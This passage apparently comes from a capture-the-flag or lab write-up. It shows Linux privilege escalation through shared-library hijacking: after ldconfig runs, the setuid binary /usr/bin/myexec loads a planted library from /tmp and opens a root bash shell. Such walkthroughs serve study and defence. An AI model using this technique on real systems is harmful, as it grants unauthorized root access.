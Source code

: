 Running `ldconfig` to repopulate the caching of libraries:
```markdown
ldconfig
```

Now when checking the libraries of _/usr/bin/myexec_, it points to our created library:
```markdown
ldd /usr/bin/myexec
```
```markdown
libseclogin.so => /tmp/libseclogin.so (0x00007fcb62180000)
```

When running _myexec_ now and input the password, it will start a bash shell as root!
```markdown
Enter password: s3cur3l0g1n
Password is correct

bash-4.3# id
uid=0(root) gid=1000(genevieve) groups=1000(genevieve)
```
